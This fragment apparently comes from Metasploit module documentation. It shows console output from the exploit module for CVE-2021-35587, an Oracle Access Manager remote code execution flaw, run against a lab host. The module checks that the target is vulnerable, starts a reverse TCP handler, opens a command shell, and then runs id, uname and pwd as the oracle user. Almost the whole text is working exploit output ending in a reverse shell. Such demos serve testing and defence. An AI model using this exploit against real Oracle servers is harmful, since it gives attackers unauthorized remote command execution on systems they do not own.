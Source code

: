 ```


Exploit target:

   Id  Name
   --  ----
   2   Unix Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > check
[*] 192.168.86.70:14100 - The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
[*] Command shell session 2 opened (192.168.86.122:4444 -> 192.168.86.70:55776) at 2025-04-02 15:23:35 +0100

id
uid=1000(oracle) gid=1000(oracle) groups=1000(oracle)
uname -a
Linux 03b1805a74e3 6.8.0-57-generic #59~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Mar 19 17:07:41 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
pwd
/u01/oracle/user_projects/domains/access_domain
```
